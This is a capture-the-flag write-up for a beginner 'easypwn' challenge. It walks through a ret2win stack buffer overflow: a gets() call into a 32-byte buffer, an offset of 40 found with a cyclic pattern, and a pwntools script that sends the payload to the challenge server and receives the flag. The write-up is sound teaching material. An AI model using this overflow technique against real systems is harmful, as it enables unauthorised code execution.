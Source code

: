 # EASYPWN

<p align="center">
    <img src="img/easypwn_chall.png" alt="Challenge" width="500"/>
</p>

```console
loevland@hp-envy:~/ctf/ept/pwn/easypwn$ ./easypwn
Hello!
What's your name?
asd
Goodbye, asd!
```

Looking at the protections on the binary, we see that most of them are turned off
```console
loevland@hp-envy:~/ctf/ept/pwn/easypwn$ pwn checksec ./easypwn
[*] '/home/loevland/ctf/ept/pwn/easypwn/easypwn'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```


When reversing the binary in IDA we see that the `main` function calls the `hello` function, which asks for our name and prints it.
```c
int __fastcall main(int argc, const char **argv, const char **envp){
  ignore_me_init_buffering(argc, argv, envp);
  hello();
  return 0;
}
```

```c
int hello(){
  char v1[32]; // [rsp+0h] [rbp-20h] BYREF
  puts("Hello!");
  puts("What's your name? ");
  gets(v1);
  return printf("Goodbye, %s!\n", v1);
}
```

There is also a function `winner` inside the binary, which is not called anywhere, but will print us the flag if called. A classic ret2win challenge.


We can see in the `hello` function that `gets(v1)` is called. `gets` is dangerous to use, because it reads in *everything* that is given as input, leading to buffer overflows being possible. Also, since we can see from running `checksec` that there is no stack canaries, nothing stops us from performing the buffer overflow.


Given that buffer `v1` is only 32 bytes in size, if we supply more than 32 bytes we will overflow and overwrite values on the stack. The return address is stored on the stack, so if we overflow it we can redirect the program execution to run the `winner` function, instead of returning back to `main`.


If we send a *cyclic* sequence as input, we can read the address where we crashed, which is `0x6161616161616166`. The `cyclic -l 0x6161616161616166` in pwndbg gives us the offset to this subsequence.
<p>
    <img src="img/gdb_offset.png" alt="Challenge" width="500"/>
</p>

```console
pwndbg> cyclic -l 0x6161616161616166
Finding cyclic pattern of 8 bytes: b'faaaaaaa' (hex: 0x6661616161616161)
Found at offset 40
```

Knowing the offset we can construct a payload which overflows the `v1` buffer and parts of the stack (with non-important values) with 40 bytes, and then overwrites the return address located on the stack with the address of `winner`. When the `hello` function returns, the `winner` function should then be called instead, because of our overwrite.

The address of `winner` finds *pwntools* for us (but can also be found in many other ways, such as IDA, Objdump, and more).

```python
payload = b"A" * 40            # Padding to the return address on the stack
payload += p64(exe.sym.winner) # Convert the address we want to call into bytes
```

We can construct a solve script
```python
from pwn import *

exe = context.binary = ELF("./easypwn", checksec=False)
io = remote("io.ept.gg", 30004)
io.clean()                     # Skip the stuff printed in the terminal before our input

payload = b"A" * 40            # Padding to the return address on the stack
payload += p64(exe.sym.winner) # Convert the address we want to call into bytes

io.sendline(payload)
io.interactive()
```

Running the solve-script on the remote instance gives us the flag
```console
loevland@hp-envy:~/ctf/ept/pwn/easypwn$ python3 solve.py
[+] Opening connection to io.ept.gg on port 30004: Done
[*] Switching to interactive mode
Hello!
What's your name?
Goodbye, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA6\x12@!
You are Winner! Flag:
EPT{S0meth1n6_2_ge7_u_5t4rt3d}
```